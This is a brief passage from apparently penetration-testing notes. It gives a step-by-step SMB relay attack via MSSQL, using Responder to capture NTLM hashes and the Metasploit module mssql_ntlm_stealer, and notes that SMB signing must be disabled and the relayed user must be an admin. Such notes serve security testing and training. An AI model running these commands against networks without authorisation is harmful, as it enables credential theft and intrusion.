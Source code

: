 Requirements: 
	- SMB signing must be disabled on the target
Relayed user credentials must be an admin on the machine

### via MSSQL
Using an smb relay attack via MSSQL (use multiple terminals):

Step 1(term 1): sudo responder -I <interface> -rwF	# sudo responder -I eth0 -rwF
Step 2(term 2): msfconsole				# metasploit
Step 3(term 2): use admin/mssql/mssql_ntlm_stealer
Step 4(term 2): set all the options (USER, PASS, RHOSTS, AUTH)
Step 5(term 2): set DOMAIN <domain>			# set DOMAIN TYRONEPC
Step 6(term 2): exploit
